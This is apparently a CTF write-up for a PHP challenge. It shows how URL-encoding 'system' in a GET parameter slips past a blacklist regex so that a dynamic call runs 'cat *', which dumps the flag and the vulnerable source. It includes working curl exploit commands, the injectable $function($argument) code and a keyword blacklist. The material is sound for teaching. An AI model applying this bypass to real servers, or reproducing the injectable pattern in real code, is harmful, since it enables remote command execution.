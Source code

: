 it's PHP Code Injection Filter Bypass. 
since the challs title is **GET ENCODED* so i try do url-encoding on __system__ it's become :
    
    %73%79%73%74%65%6d #system

```html
curl http://jh2i.com:50013/\?%73%79%73%74%65%6d                                                             0|1 ↵
<pre><br />
<b>Warning</b>:  system(): Cannot execute a blank command in <b>/var/www/html/index.php</b> on line <b>33</b><br />
</pre><p>Machines hunt for more than humans do.</p>%
```

and it works!!,

```bash
curl http://jh2i.com:50013/\?%73%79%73%74%65%6d\=cat%20\*                                                       ✔
<pre>// the flag is: JHDCTF{i_gotcha_url_encoding}<?php

	function debug(){
		highlight_file(__FILE__);

	}


	// I hate these functions, they are so insecure!
	$blacklist = "assert|system|passthru|exec|assert|read|open|eval|`|_|file|dir|\.\.|\/\/|curl|ftp|glob";


	// If you supply GET arguments, process them...
	// Documentation here: http://php.net/manual/en/reserved.variables.get.php
	if ( count( $_GET ) > 0 ){

		// Check if there are any bad functions in the URL supplied
		if ( preg_match( "/$blacklist/i", $_SERVER['REQUEST_URI'] ) ) {

			// If there are all, kindly tell them off. ;)
			// Documentation here: http://php.net/manual/en/reserved.variables.server.php
			die( "Go away, hacker! No unsafe functions in \$_SERVER['REQUEST_URI']!!" );

		}else{

			// Otherwise, execute code as a usual debugging interface.
			// Pull them out of the GET array as `variable=value` format...
			list( $function, $argument ) = each($_GET);

			// and call what they supply...
			// THIS WILL ONLY CALL ONE FUNCTION, SO YOU CAN'T INCLUDE `/?debug`
			echo("<pre>");
			$function($argument);
			echo("</pre>");
		}

	}

	echo("<p>Machines hunt for more than humans do.</p>");


?>
# you know the way my queen
User-Agent: *
Disallow: /?debug</pre><p>Machines hunt for more than humans do.</p>%
```
